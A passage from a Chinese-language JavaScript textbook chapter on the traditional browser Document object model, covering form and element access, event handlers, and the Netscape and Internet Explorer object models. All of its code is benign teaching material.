<body bgcolor="white" text="green" link="red" alink="#ffff00">
<h1 align="center">测试文档</h1>
<hr />
<a href="http://www.pint.com/">示例链接</a>
<a name="anchor1"></a>

<a name="anchor2" href="http://www.javascriptref.com">示例链接 2</a>

<form name="form1" action="#" method="get"></form>

<form name="form2" action="#" method="get"></form>

<hr />

<br /><br />

<script type="text/javascript">
<!--

    // 需要放在页面底部

    showProps();

//-->

</script>

</body>

</html>
```

上一个示例的输出示例如图 9-3 所示。

### 测试文档

示例链接 示例链接 2

#### 文档对象属性

#### 基本页面属性

Location = file://C/TEMP/cf-new.htm
URL = file://C/TEMP/cf-new.htm
Document Title = 传统文档对象测试
Document Last Modification Date = 07/16/2001 16:56:12

#### 页面颜色

Background Color = #FFFFFF
Text Color = #000000
Link Color = #0000FF
Active Link Color = #FFFF00
Visited Link Color = #800080

#### 链接

Links = 2
Links[0]=http://www.gest.com/
Links[1]=http://www.javascriptref.com/

#### 锚点

Anchors = 2
Anchors[0]=
Anchors[1]=http://www.javascriptref.com/

#### 表单

Forms = 2
Forms[0]=form1
Forms[1]=form2

图 9-3：简单的**文档**属性

然而，需要注意的一点是，如果您没有在包含表单、链接等的文档上运行此脚本，许多属性将不会被设置。请注意在具有以下简单**主体**内容的文档上运行相同脚本的结果，如图 9-4 所示。


```html
<body>
<h1 align="center">测试 2 文档</h1>
<hr />
<script type="text/javascript">
<!--
    // 需要放在页面底部
    showProps();
//-->
</script>
</body>

</html>
```

JavaScript 不会为不存在的标记元素创建，或者用编程术语更准确地说*实例化* JavaScript 对象。虽然您会注意到浏览器倾向于为某些类型的属性（如文本和链接颜色）定义默认值，无论是否存在某些 (X)HTML 元素或属性，但在第二个示例中，我们没有 **Form** 对象、**Anchor** 对象或 **Link** 对象，因为测试文档中缺少 `<form>` 和 `<a>` 标签。应该非常清楚，(X)HTML 元素在 JavaScript **Document** 对象中有对应的对象，这正是两种技术交互的方式。最后这个想法是对象模型的核心——页面中标记世界与 JavaScript 编程思想之间的桥梁。我们现在探讨如何从 JavaScript 访问和操作标记元素。

> **提示** 鉴于标记和 JavaScript 对象之间的紧密关联性，糟糕的 (X)HTML 标记通常会导致脚本问题也就不足为奇了。如果您想成为专业的 JavaScript 程序员，无论别人怎么说，您确实需要了解您的 (X)HTML。

#### 通过位置访问文档元素

当浏览器读取 (X)HTML 文档时，会为所有可脚本化的元素实例化 JavaScript 对象。最初，浏览器中可脚本化的标记元素数量有限，但在现代浏览器中，可以访问任何任意的 HTML 元素。然而，为了简单起见，现在我们专注于通过传统 JavaScript 对象模型可访问的 (X)HTML 元素，特别是 `<form>` 及其相关元素。例如，如果我们有这样一个文档，

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>简单表单</title>

</head>

<body>

<form action="#" method="get">

    <input type="text" />

</form>

<br /><br />

<form action="#" method="get">

    <input type="text" />

    <br />

    <input type="text" />

</form>

</body>

</html>
```

使用传统的 JavaScript 对象模型，我们可以使用以下方式访问第一个 `<form>` 标签

```javascript
window.document.forms[0]
```

访问第二个 `<form>` 标签，我们将使用

```javascript
window.document.forms[1]
```

然而，访问 *window.document.forms[5]* 或其他值会导致问题，因为只有两个由每个 **\<form\>** 标签实例化的表单对象。

如果我们再次查看 *图 9-2*，请注意 *forms[]* 集合还包含一个 *elements[]* 集合。这包含各种表单字段，如文本字段、按钮、下拉列表等。遵循基本的包含概念，要到达文档中第一个表单的第一个表单元素，我们将使用

```javascript
window.document.forms[0].elements[0]
```

虽然这种基于数组的访问方式很直接，但主要缺点是它依赖于 (X)HTML 标签在文档中的位置。如果标签被移动，JavaScript 实际上可能会中断。更好的方法是依赖对象的名称。

#### 通过名称访问文档元素

网页中的标记元素确实应该命名，以便脚本语言能够轻松读取和操作它们。将唯一标识符附加到 (X)HTML 元素的基本方法是使用 **id** 属性。**id** 属性与几乎所有 (X)HTML 元素相关联。例如，要将一个特定的加粗文本命名为 "SuperImportant"，您可以使用此处所示的标记：

```html
<b id="SuperImportant">This is very important.</b>
```

就像在 JavaScript 中选择唯一的变量名一样，在标记中命名标签非常重要，因为这些标签在 JavaScript 中创建对象。如果标记中有名称冲突，您很可能会破坏脚本。鼓励 Web 开发人员采用一致的命名风格，并避免使用可能引起混淆的名称，包括 HTML 元素本身的名称。例如，"button" 不是一个很好的表单按钮名称，它肯定会导致代码混淆，甚至可能干扰脚本语言的访问。

在 HTML 4 和 XHTML 1 标准化之前，使用 **name** 属性而不是 **id** 将项目暴露给脚本。为了向后兼容，通常为 `<a>`、`<applet>`、`<button>`、`<embed>`、`<form>`、`<frame>`、`<iframe>`、``、`<input>`、`<object>`、`<map>`、`<select>` 和 `<textarea>` 定义 **name** 属性。请注意，**name** 属性的出现与传统的浏览器对象模型密切相关。

> **注意** *`<meta>` 和 `<param>` 都支持一个名为 **name** 的属性，但它们的含义完全不同，与脚本访问无关。*

页面开发人员必须小心，在必要时使用 **name**，以确保与旧版浏览器的向后兼容性。即使这对您来说不是问题，读者也不应惊讶地发现，许多现代浏览器更喜欢在支持它的标签上使用 **name** 属性。为安全起见，在支持两者的标签上使用 **name** 和 **id** 属性，并保持它们的值相同。所以我们会写

```html
<form name="myForm" id="myForm" method="get" action="#">
```

```html
<input type="text" name="userName" id="userName" />
```

```html
</form>
```

然后从 JavaScript 访问表单，我们可以使用

```javascript
window.document.myForm
```


#### 使用关联数组访问对象

**Document**对象中的大多数数组都是关联数组。也就是说，它们可以像之前看到的那样用整数进行索引，也可以用字符串来指定你要访问的元素名称。正如我们也看到过的，这个名称是通过标签的(X)HTML **name**或**id**属性来设置的。当然，许多较旧的浏览器只识别使用**name**属性来设置元素的名称。考虑以下HTML：

```html
<form name="myForm2" id="myForm2" method="get" action="#">
<input name="user" type="text" value="" />
</form>
```

你可以将表单作为*document.forms["myForm2"]*来访问，甚至可以使用**Form**对象的*elements[]*数组来访问字段，如*document.forms["myForm2"].elements["user"]*。Internet Explorer对这些关联数组进行了更广泛的泛化，并将它们称为*collections*（集合）。IE中的集合可以用整数、字符串或本章后面提到的特殊**item()**方法进行索引。

#### 事件处理器

现在我们已经了解了如何访问页面对象，需要看看如何监控这些对象上的用户活动。脚本响应用户操作的主要方式是通过*event handlers*（事件处理器）。事件处理器是与文档的特定部分以及特定"事件"相关联的JavaScript代码。如果给定事件在与其关联的文档部分发生，则代码执行。常见的事件包括**Click**、**MouseOver**和**MouseOut**，分别在用户点击、将鼠标悬停或将鼠标移离文档的某一部分时发生。这些事件通常与表单按钮、表单字段、图像和链接相关联，用于表单字段验证和悬停按钮等任务。重要的是要记住，并非每个对象都能处理每种类型的事件。一个对象能处理的事件在很大程度上反映了该对象最常见的使用方式。

##### 设置事件处理器

你可能之前在(X)HTML中已经见过事件处理器。以下简单示例在用户点击按钮时向他们显示一个警告框：

```html
<form method="get" action="#">
<input type="button" value="Click me" onclick="alert('That tickles!');" />
</form>
```

**<input>**标签的**onclick**属性用于将给定的代码绑定到按钮的**Click**事件。每当用户点击按钮时，浏览器会向**Button**对象发送一个**Click**事件，导致它调用其**onclick**事件处理器。

浏览器如何知道在哪里找到对象的事件处理器？这是由文档对象模型中被称为*event model*（事件模型）的部分决定的。事件模型本质上是一套接口和对象，使得这种事件处理成为可能。在大多数主流浏览器中，对象的事件处理器可以作为对象本身的属性访问。因此，我们可以不使用标记来将事件处理器绑定到对象，而是使用纯JavaScript来完成。以下代码与前一个示例等效：

```html
<form name="myForm" id="myForm" method="get" action="#">
<input name="myButton" id="myButton" type="button" value="Click me" />
</form>
```

```javascript
<script type="text/javascript">
<!--
document.myform.mybutton.onclick = new Function("alert('That tickles!')");
// -->
</script>
```

我们定义了一个包含事件处理器代码的匿名函数，然后将按钮的**onclick**属性设置为等于它。

##### 调用事件处理器

你可以像设置处理器一样容易地导致事件在对象上发生。对象有一个以其可处理的每个事件命名的方法。例如，**Button**对象有一个**click()**方法，会导致其**onclick**处理器执行（或者说"触发"，正如许多人所说的）。我们可以轻松地导致前两个示例中定义的点击事件发生：

```javascript
document.myForm.myButton.click();
```

显然，事件处理器的内容远不止我们这里描述的。两大主流浏览器都实现了复杂的事件模型，为开发者在事件处理方面提供了广泛的灵活性。例如，如果你必须为大量对象定义相同的事件处理器，你可以将其一次性绑定到层次结构中的更高层对象，而不是分别绑定到每个子对象。关于事件处理器的更完整讨论可在[第11章](https://example.com/chapter11)中找到。

#### 综合运用

现在我们已经看到了传统对象模型的所有组成部分，是时候展示所有这些组成部分是如何一起使用的了。正如我们之前所看到的，通过使用标签的名称或确定其位置，引用在JavaScript对象模型中暴露的HTML元素的出现是相当容易的。例如，给定

```html
<form name="myForm" id="myForm">
<input type="text" name="userName" id="userName">
</form>
```

我们会使用

```javascript
document.myForm.userName
```

来访问此表单中名为*userName*的字段。但是如何操作该标签的属性呢？理解JavaScript对象模型的关键在于，一般来说，(X)HTML元素的属性是作为JavaScript对象属性暴露的。因此，给定XHTML中的文本字段具有基本语法

```html
<input type="text" name="unique identifier" id="unique identifier"
    size="number of characters" maxlength="number of characters"
        value="default value" />
```

那么根据我们最后的示例，*document.myForm.userName.type*引用输入字段的**type**属性值，在本例中为text，而*document.myForm.userName.size*引用其显示的屏幕字符大小，*document.myForm.userName.value*表示输入的值，等等。以下简单示例将所有内容综合在一起，展示了如何通过名称引用字段来访问表单字段的内容，并在警告窗口中动态显示。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Meet and Greet</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function sayHello()
{
 var theirname=document.myForm.userName.value;
 if (theirname !="")
alert("Hello "+theirname+"!");
else
alert("Don't be shy.");
}
//-->
</script>
</head>
<body>
<form name="myForm" id="myForm" action="#" method="get">
<strong>What's your name?</strong>
<input type="text" name="userName" id="userName" size="20" />
<br /><br />
<input type="button" value="Greet" onclick="sayHello();" />
</form>
</body>
</html>
```

我们不仅可以读取页面元素的内容，特别是表单字段，还可以使用JavaScript更新它们的内容。使用表单字段是最明显的候选者，我们修改前面的示例，以在另一个表单字段中写入我们对用户的响应。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Meet and Greet 2</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function sayHello()
{
var theirname = document.myForm.userName.value;
if (theirname != "")
    document.myForm.theResponse.value="Hello "+theirname+"!";
else
    document.myForm.theResponse.value="Don't be shy.";
}
//-->
</script>
</head>
<body>
<form name="myForm" id="myForm" action="#" method="get">
<b>What's your name?</b>
<input type="text" name="userName" id="userName" size="20" />
<br /><br />
<b>Greeting:</b>
<input type="text" name="theResponse" id="theResponse" size="40" />
<br /><br />
<input type="button" value="Greet" onclick="sayHello();" />
</form>
</body>
</html>
```

前面的示例展示了如何使用最传统的对象模型来访问元素，遵循**window.document.collectionname**的包含层次结构，其中**collectionname**是JavaScript对象的数组，如**forms[]**、**anchors[]**、**links[]**等，对应于(X)HTML标记元素。然而，在支持W3C DOM的现代浏览器中，我们不一定要遵循这种层次化的访问方式。例如，给定一个标签如

```html
<p id="para1">Test paragraph</p>
```

我们可以使用**document.getElementById("para1")**直接访问**id**值为para1的<p>标签，而不是通过某个不存在的*document.paragraphs[]*集合来访问。一旦我们访问了该标签，我们可以像之前对<input>标签那样设置其属性值。例如，

```javascript
var theTag;
theTag = document.getElementById("para1");
theTag.align="right";
```

会将段落的**align**属性设置为"right"。当然，我们可以设置段落标签支持的任何属性，甚至更改其


通过其 **style** 属性访问 CSS 属性。

虽然直接访问方式似乎远比层级方法优越，但它并非一直可用。因此在结束本章并跳入第 10 章的 DOM 之前，我们简要介绍各种浏览器对象模型及其多年来的演变。然而，请不要跳过这些章节或将其视为历史注记；这些对象模型和 JavaScript 方法仍然是许多 JavaScript 开发者使用的编码风格，尤其是那些追求向后兼容的开发者。此外，所介绍的对象模型（特别是 Netscape 3）构成了 DOM Level 0 规范的基础，因此它们将在未来长期存在。

### 对象模型

到目前为止，讨论主要集中于所有文档对象模型通用的通用特性，无论浏览器版本如何。毫不奇怪，每次发布新版本时，浏览器厂商都会以各种方式扩展 **Document** 对象的功能。修复了错误，增加了对文档更大部分的访问，并不断改进现有功能。

文档对象模型的逐步演变从某种意义上说是件好事，因为更新的对象模型允许你更轻松地执行更多种类的任务。然而，它也给 Web 开发者带来了一些重大问题。最大的问题是不同浏览器的对象模型朝着不同的方向发展。添加了新的专有标签以促进动态 HTML（DHTML）的实现，而新的非标准执行各种任务的方式也成为了 Internet Explorer 和 Netscape 的一部分。这意味着开发者使用 Netscape 对象模型编写的全新 DHTML 代码很可能无法在 Internet Explorer 中工作（反之亦然）。幸运的是，随着旧版浏览器的使用持续减少，以及现代浏览器对 DOM 标准的支持不断改进，我们将不必永远了解这些差异，并可以专注于[第 10 章](https://example.com/chapter10)的内容。然而，就目前而言，鼓励读者了解这些对象模型，并应特别注意后来的 Internet Explorer 模型，因为许多开发者出于更好或更差的原因而更青睐它而非 DOM 标准。

#### 早期 Netscape 浏览器

第一个 JavaScript 浏览器 Netscape 2 的对象模型就是本章前面介绍的基本对象模型。它是第一个向 JavaScript 提供此类界面的浏览器，其功能有限。由于对象模型的限制，该浏览器中 JavaScript 的主要用途是表单验证和非常简单的页面操作，例如打印最后修改日期。Netscape 3 的 **Document** 对象为最初的原始 DHTML 类应用打开了大门。它通过提供访问嵌入式对象、小程序、插件和图像的能力，向脚本暴露了更多的文档内容。该对象模型显示在[图 9-5](https://example.com/figure9-5)中，对 **Document** 对象的主要新增内容列于[表 9-4](https://example.com/table9-4)。


**图 9-5**：Netscape 3 对象模型

##### 表 9-4：Netscape 3 中的新增 Document 属性

| 属性 | 描述 |
| --- | --- |
| **applets[]** | 文档中小程序（<applet> 标签）的数组 |
| **embeds[]** | 文档中嵌入式对象（<embed> 标签）的数组 |
| **images[]** | 文档中图像（ 标签）的数组 |
| **plugins[]** | 文档中插件的数组 |

**注意** *不含 **embeds[]** 和 **plugins[]** 集合的 Netscape 3 对象模型是 DOM Level 0 标准的核心，因此非常重要。*

可以说，对于许多 Web 开发者来说，Netscape 3 对 **Document** 对象最重要的补充是引入了 **images[]** 集合，它实现了如今随处可见的翻转按钮，这将在第 15 章中讨论。

#### Netscape 4 的 DHTML 导向对象模型

版本 4 浏览器的文档对象模型标志着对所谓动态 HTML（DHTML）支持的开始。在 Netscape 4 之前，除了响应用户事件交换图像外，几乎没有什么办法让网页活起来。这一版本的主要变化包括对专有 **<layer>** 标签的支持、Netscape 事件模型的补充，以及 **Style** 对象和操作它们的手段的添加。图 9-6 显示了 Netscape 4 对象模型的要点，**Document** 对象最有趣的新属性列于**表 9-5**。


##### 表 9-5：Netscape 4 中的新增 Document 属性

| 属性 | 描述 |
| --- | --- |
| **classes** | 创建或访问具有 **class** 属性设置的 HTML 元素的 CSS 样式。 |
| **ids** | 创建或访问具有 **id** 属性设置的 HTML 元素的 CSS 样式。 |
| layers[] | 文档中层（<layer> 标签或定位的 <div> 元素）的数组。如果按整数索引，这些层按 **z-index** 从后向前排序（其中 z-index 为 0 的是最底层）。 |
| tags | 创建或访问任意 HTML 元素的 CSS 样式。 |

虽然 Netscape 4 对象模型的大多数方面已被降格为 Web 开发中的历史脚注，但这一代浏览器中有一个方面继续困扰着开发者，那就是专有的 **Layer** 对象。

#### Netscape 的 document.layers[]

Netscape 4 引入了一个专有的 HTML 标签 <layer>，它允许开发者定义可以精确定位、移动、重叠，并可渲染为隐藏、可见甚至透明的内容区域。似乎应该忽略 <layer>，因为它从未进入任何 W3C 的 HTML 标准，从未被任何 competing 浏览器厂商包含，并且它在 Netscape 的 6.x 代中迅速被放弃。然而，它的遗产仍然存在，需要 JavaScript 开发者在 Netscape 4 中使用 **document.layers[]** 集合来访问 CSS 定位的 <div> 区域。时至今日，许多 DHTML 库和应用程序仍在不同程度上支持 **document.layers[]**。作为 Netscape 4 **Layer** 对象的快速示例，我们展示一个隐藏和显示 CSS 定位区域的示例。

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">

<html>

<head>

<title>NS4 Layer Example</title>

<style type="text/css">

<!--

#div1
    { position: absolute;

        top: 200px;

        left: 350px;

        height: 100px;

        width: 100px;

        background-color: orange;}

-->

</style>

</head>

<body>

<h1 align="center">Netscape 4 Layer Example</h1>

<div id="div1">An example of a positioned region</div>
```

```
<form action="#" method="get">

<input type="button" value="hide"

onclick="document.layers['div1'].visibility='hide';">

<input type="button" value="show"

onclick="document.layers['div1'].visibility='show';">

</form>

</body>

</html>
```

这个集合的一个复杂之处在于，只有通过 **document.layers[]** 才能访问第一层嵌套的层，因为每个层都接收自己的 **Document** 对象。要访问嵌套的层，必须导航到外层，通过其 **Document** 到达嵌套层的 **layers[]** 数组，依此类推。例如，要访问层中嵌套的层，你可以写

```
var nestedLayer = document.layers[0].document.layers[0].document;
```

尽管希望 **Layer** 对象的使用在不久的将来彻底消失，但为了与 Netscape 4.x 代浏览器保持向后兼容，它们是必需的。有兴趣的读者应注意，[第 15 章](Chapter 15)介绍了一个跨浏览器 DHTML 库，将有助于解决此类问题。

#### Netscape 6、7 和 Mozilla

Netscape 6 的发布标志着 Netscape 浏览器一个令人兴奋但短暂的时代的开始。虽然 Netscape 浏览器本身最终消亡了，但它所基于的引擎和浏览器 Mozilla 继续以多种形式存在。这个浏览器家族的主要侧重点是标准合规性，这与过去临时专有的文档对象模型相比是一个令人耳目一新的变化。它向后兼容所谓的 DOM Level 0，即 W3C 的 DOM 标准，该标准整合了许多旧文档对象模型的广泛功能，特别是 Netscape 3 的功能。然而，它还实现了 DOM Level 1 和部分 DOM Level 2，即 W3C 针对标准 HTML、XML、CSS 和事件的对象模型。这些标准模型与旧模型有显著不同，将在下一章中详细介绍。

Netscape 6 开始已经取消了对旧版浏览器（如 Netscape 4）支持的几乎所有专有扩展的支持，最著名的是 `<layer>` 标签及其对应的 JavaScript 对象。这打破了允许开发者为旧版浏览器编程时知道此类代码将得到新版支持的范式。与文档模型的许多方面一样，这既是好事也是坏事。旧代码可能无法在基于 Netscape/Mozilla 的浏览器中工作，但针对此浏览器编写的未来代码将有坚实的标准基础。不熟悉 Mozilla 浏览器家族的读者被鼓励去了解，因为他们可能会发现新的令人兴奋的变化，以及安全测试许多新兴 W3C 标记、CSS 和 DOM 标准的机会，这些标准将在[第 10 章](Chapter 10)中讨论。

##### Internet Explorer 3

IE3 的对象模型是本章开头介绍的基本"最低公分母"对象模型。它在 **Document** 对象中包含了一些 Netscape 2 所没有的"额外"属性，例如 **frames[]** 数组，但大多数情况下它与 Netscape 2 的模型非常接近。Internet Explorer 3 的对象模型显示在[图 9-7](Figure 9-7)中。

**图 9-7：** Internet Explorer 3 对象模型基本上模仿了 Netscape 2。

在 Netscape 2 和 IE3 作为各自浏览器最新版本共存的短暂时期内，对象模型处于统一的舒适状态。但这不会持续太久。

#### Internet Explorer 4 的 DHTML 对象模型

与 Netscape 浏览器的第 4 版一样，IE4 通过向 JavaScript 暴露更多的页面内容，为 DHTML 应用奠定了基础。事实上，它比 Netscape 4 走得更远，将*每一个* HTML 元素都表示为一个对象。不幸的是，它这样做的方式与 Netscape 4 的对象模型不兼容。Internet Explorer 4 的基本对象模型如[图 9-8]所示。


**图 9-8：** Internet Explorer 4 对象模型

检查图 9-8 可以发现，IE4 支持 Netscape 2 和 IE3 的基本对象模型，以及 Netscape 3 的大部分功能，还有许多它自己的功能。表 9-6 列出了 IE4 中一些重要的新属性。你会注意到图 9-9 和表 9-6 显示，IE4 还实现了与 Netscape 4 中存在的那些截然不同的新文档对象功能。正是在两个主流浏览器的第 4 版中，对象模型开始分道扬镳。


**图 9-9：** IE 的 **document.all** 集合暴露了所有文档元素。

##### 表 9-6：Internet Explorer 4 中的新文档属性

| 属性 | 说明 |
| :--- | :--- |
| all[] | 文档中所有 HTML 标签的数组 |
| applets[] | 文档中所有小程序（<applet> 标签）的数组 |
| children[] | 对象的所有子元素的数组 |
| embeds[] | 文档中所有嵌入对象（<embed> 标签）的数组 |
| images[] | 文档中所有图像（ 标签）的数组 |
| scripts[] | 文档中所有脚本（<script> 标签）的数组 |
| styleSheets[] | 文档中所有样式对象（<style> 标签）的数组 |

#### IE 的 document.all[]

IE4 引入的最重要的新 JavaScript 功能之一是 **document.all** 集合。这个数组提供了对文档中每个元素的访问。它可以以多种方式索引，并返回与提供的 **index**、**id** 或 **name** 属性匹配的对象集合。例如：

```
// 将变量设置为文档中的第四个元素
var theElement = document.all[3];

// 查找 id 或 name = myHeading 的标签
var myHeading = document.all["myHeading"];

// 查找 id 或 name = myHeading 的标签的替代方法
var myHeading = document.all.item("myHeading");

// 返回所有 <em> 标签的数组
var allEm = document.all.tags("EM");
```

如你所见，访问页面元素有多种方式，但无论使用哪种方法，**document.all** 集合的主要效果是将文档对象层次结构扁平化，以便快速轻松地访问 HTML 文档的任何部分。以下简单示例表明 Internet Explorer 确实暴露了页面中的所有元素；其结果如[图 9-9](https://www.google.com/search?q=Figure+9-9)所示。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Document.All Example</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
```

```
<h1>Example Heading</h1>

<hr />

<p>This is a <em>paragraph</em>.  It is only a <em>paragraph.</em></p>

<p>Yet another <em>paragraph.</em></p>

<p>This final <em>paragraph</em> has <em id="special">special emphasis.</em></p>

<hr />

<script type="text/javascript">
<!--
 var i,origLength;
 origLength = document.all.length;
 document.write('document.all.length='+origLength+"<br />");
 for (i = 0; i < origLength; i++)
  {
   document.write("document.all["+i+"]="+document.all[i].tagName+"<br />");
  }
//-->
</script>

</body>

</html>
```

**注意** *如果你不使用 **origLength** 变量，而是依赖 **document.all.length** 作为循环检查条件，前面的示例将导致无限循环。原因是每次输出你正在检查的元素时，**document.all[]** 集合中的元素数量都会增加！*

一旦使用 **document.all** 语法引用了特定元素，你会发现与之关联的各种属性和方法，包括 **all** 属性本身，它引用返回标签内包含的任何标签。**表 9-7** 和 9-8 展示了一些更有趣的（但肯定不是全部）这些新属性和方法。请注意，内联元素不会具有某些属性（如 *innerHTML*），因为根据定义，它们的标签不能包含任何其他内容。

##### 表 9.7：IE4 中文档模型对象的一些新属性

| 属性 | 说明 |
|----------|-------------|
| all[] | 对象包含的所有元素的集合。 |
| children[] | 对象是其后代的直接子元素的集合。 |
| className | 包含对象 CSS 类的字符串。 |
| innerHTML | 包含对象标签所包围的 HTML 内容（不包括对象标签本身）的字符串。此属性对大多数 HTML 元素可写。 |
| innerText | 包含对象标签所包围的文本内容的字符串。此属性对大多数 HTML 元素可写。 |
| outerHTML | 包含元素 HTML 内容（包括其开始和结束标签）的字符串。此属性对大多数 HTML 元素可写。 |
| outerText | 包含元素的外部文本内容的字符串。此属性对大多数 HTML 元素可写。 |
| parentElement | 对对象层次结构中对象父级的引用。 |
| style | 包含对象 CSS 属性的样式对象。 |
| tagName | 包含与对象关联的 HTML 标签名称的字符串。 |

##### 表 9-8：IE4 中文档模型对象的一些新方法

| 方法 | 说明 |
| --- | --- |
| click() | 模拟点击对象，导致 **onClick** 事件处理程序触发 |
| getAttribute() | 检索元素的 **argument** HTML 属性 |
| insertAdjacentHTML() | 允许在元素之前、之后或内部插入 HTML |
| insertAdjacentText() | 允许在元素之前、之后或内部插入文本 |
| removeAttribute() | 从元素中删除 **argument** HTML 属性 |
| setAttribute() | 为元素设置 **argument** HTML 属性 |

如果表 9-7 和 9-8 看起来令人不知所措，不要担心。在这一点上，我们不期望你完全理解这些属性和方法中的每一个。相反，我们列出它们是为了说明 Netscape 和 Internet Explorer 的对象模型在很短的时间内分道扬镳到了何种程度。我们将在下一章介绍 IE 支持的与 DOM 相关的属性，以及一些更有用的专有功能。其余内容将在第 21 章和附录 B 中介绍。

然而，即使对 Internet Explorer 中可用功能的简要检查也应该揭示，这是第一个可以实现真正动态 HTML 的浏览器，提供了动态操作样式以及插入、修改和删除任意标记和文本的手段。有史以来第一次，JavaScript 可以操作文档的结构，随意更改页面的内容和呈现的所有方面。以下示例使用 Internet Explorer 特定的语法说明了这一思想。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Document.All Example #2</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
```


<!-- 在 Internet Explorer 及兼容浏览器中有效 -->

<h1 id="heading1" align="center" style="font-size: larger;">DHTML 趣味演示!!!</h1>

<form name="testform" id="testform" action="#" method="get">
<br /><br />
<input type="button" value="左对齐"
       onclick="document.all['heading1'].align='left';" />
<input type="button" value="居中对齐"
       onclick="document.all['heading1'].align='center';" />
<input type="button" value="右对齐"
       onclick="document.all['heading1'].align='right';" />
<br /><br />
<input type="button" value="放大"
       onclick="document.all['heading1'].style.fontSize='xx-large';" />
<input type="button" value="缩小"
       onclick="document.all['heading1'].style.fontSize='xx-small';" />
<br /><br />
<input type="button" value="红色"
       onclick="document.all['heading1'].style.color='red';" />
<input type="button" value="蓝色"
       onclick="document.all['heading1'].style.color='blue';" />
<input type="button" value="黑色"
       onclick="document.all['heading1'].style.color='black';" />
<br /><br />


<input type="text" name="userText" id="userText" size="30" />
<input type="button" value="更改文本"
       onclick="document.all['heading1'].innerText=document.testform.userText.value;" />
```

</form>

</body>

</html>

这里给出的前几个例子只是触及了 IE 强大的文档对象模型的皮毛。该模型始于 Internet Explorer 4，并在后续版本中不断增强。

#### Internet Explorer 5、5.5 和 6

Internet Explorer 5.x 和 6.x 的文档对象模型与 IE4 非常相似。新特性包括文档模型对象中可用属性和方法的爆炸性增长，以及专有的增强功能，允许开发可重用的 DHTML 组件。Internet Explorer 5.5 继续了新功能的趋势，而到 Internet Explorer 6，我们看到 IE 实现了 W3C DOM 的很大一部分。然而，开发人员常常发现，为了使 IE6 更符合标准，他们必须小心地通过包含有效的 DOCTYPE 来“开启”标准模式。然而，即使启用了标准模式，IE5/5.5/6 的实现也根本不是 W3C DOM 的 100% 完整实现，并且存在大量基于现有 IE4 对象模型构建的专有对象、属性和方法。此外，鉴于该浏览器的主导地位，许多其想法，如 **document.all** 和 **innerHTML**，似乎比标准支持者愿意承认的更受开发人员接受。

#### Opera、Safari、Konqueror 及其他浏览器

尽管一些 Web 开发人员很少考虑它们，但确实存在一些其他浏览器，它们在许多精通技术的圈子里拥有少量但忠实的用户群。大多数第三方浏览器是“严格标准”实现，这意味着它们实现了 W3C 和 ECMA 标准，并忽略 Internet Explorer 和 Netscape 的大部分专有对象模型。大多数提供了对传统 JavaScript 对象模型的支持，并接受 Internet Explorer 风格的 JavaScript 在 Web 上很普遍这一事实。然而，在其核心，这些替代浏览器将开发重点放在 W3C 标准上。如果你的网站用户群可能使用不太常见的浏览器，例如 Linux 爱好者，那么避免使用 IE 特定功能，转而使用 W3C DOM 可能是个好主意。

#### 跨浏览器对象支持的噩梦

Internet Explorer 和 Netscape 共享的 **Document** 对象的通用框架可追溯到 1996 年。可能难以置信，但在过去这些年里，主要浏览器共有的文档对象模型部分只有适度的改进。因此，当面对非平凡的 JavaScript 任务时，Web 开发人员已经习惯于为 Internet Explorer 4+ 编写单独的脚本，为其他浏览器（如 Netscape）编写另一套脚本。现在，随着 W3C DOM 标准的兴起，你经常会看到为完全兼容性而准备的三个不同的代码分支。很明显，竞争对象模型的情况并不理想。对于那些不相信的人，请看看第 15 章，了解跨浏览器实现简单视觉效果需要什么。Web 开发社区已经准备好进行变革，而 W3C Document Object Model 提供了与平台和语言无关的接口，允许程序和脚本动态访问和更新文档（包括 HTML 和 XML）的内容、结构和样式。如果浏览器厂商继续改进他们对 W3C DOM 的支持，未来某个时刻，Web 开发人员可能会获得一个强大、健壮且标准化的接口来操作结构化文档，但就目前而言，忽略本章关于平台的经验教训，读者将承担风险。

### 总结

本章对传统文档对象模型进行了基本介绍。传统的 **Document** 对象被构建为包含层次结构，并通过“导航”从通用对象到更具体的对象来访问。大多数有用的 **Document** 属性存在于像 **images[]** 这样的关联数组中，当元素使用 HTML 标签的 **name** 或 **id** 属性命名时，可以通过整数或名称对其进行索引。事件处理程序被引入作为响应用户事件的一种方式，可以通过 JavaScript 或标记来设置。本章还介绍了主要浏览器的特定文档对象模型。像 Netscape 2/3 和 Internet Explorer 3 这样的早期浏览器实现了构成 DOM Level 0 基础的对象模型。然而，随后的 4.x 代浏览器引入了一些强大的“DHTML”特性，这些特性高度不兼容，并导致一些 Web 开发人员接受了专有特性。虽然本章清楚地说明了不同浏览器对象模型的差异和不兼容性，但不应暗示事情就应该这样发展。相反，应该拥抱 W3C DOM，因为它为困扰 JavaScript 开发人员的跨浏览器混乱局面提供了解决方案。下一章将解释 W3C DOM 的详细信息，以及为什么它应该彻底改变脚本操作文档的方式。

## 第 10 章：标准文档对象模型

